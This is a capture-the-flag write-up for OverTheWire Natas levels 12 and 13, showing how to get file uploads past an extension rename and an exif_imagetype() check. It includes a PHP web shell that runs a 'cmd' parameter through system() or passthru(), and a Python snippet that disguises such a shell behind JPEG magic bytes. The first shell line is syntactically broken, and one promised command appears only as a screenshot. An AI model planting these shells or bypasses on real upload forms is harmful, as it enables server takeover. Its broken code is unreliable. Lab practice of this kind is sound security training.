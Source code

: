 ```yaml
---
layout: post
title: Natas 12 & 13 writeup
date: 2019-03-24
author: th3-3inst3in
comments: true
categories: overthewire
tags: [web,overthewire]
---
```


## Natas 12

Visit this [link](http://natas12.natas.labs.overthewire.org/) to go to level 12 for which you’ll need the password from the previous level.

You'll land on a page where you can upload a file. Our objective here is to upload a php file and get code execution.

The problem is that even if you upload a php file it gets renamed in to a jpg file so we need to intercept the request and change the file extension.

* First name a simple file with the following content

```php
<?php system($_GET['cmd'];) ?>
```

select the file and intercept the request and change the extenion to php as shown in the picture

![intercept](https://mbilalrizwan.github.io/MyCtfWriteups/assets/images/overthewire/natas12intercept.png)

After the file is uploaded you'll be given a link looking something like this 

http://natas12.natas.labs.overthewire.org/upload/<random string>.php

You now have code execution on the server and can simply get the flag with the folloing command


![intercept](https://mbilalrizwan.github.io/MyCtfWriteups/assets/images/overthewire/natas12flag.png)




## Natas 13

Level 13 is quite similar to 12 with one minor change 

Even if we use the trick we did in the last level we don't get the php file to execute on the server reason is the folloing line of code 


```php
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    }
```

* exif_imagetype() basically checks the first few bytes of the file to verify its type.
This is a very common way of validating uploaded files you can read more about this function on php.net forms.

The following python code can help bypass this check

```python
>>> fh = open('shell.php', 'w')
>>> fh.write('\xFF\xD8\xFF\xE0' + '<? passthru($_GET["cmd"]); ?>')
>>> fh.close()
```

The above code basically makes a file which contains the passthru() function to execute commands on the server but the first few bytes of the file will make it seem like its a valid image and hence will bypass the check .
Upload the file and  vola we have your shell.

![13 flag](https://mbilalrizwan.github.io/MyCtfWriteups/assets/images/overthewire/natas13flag.png)
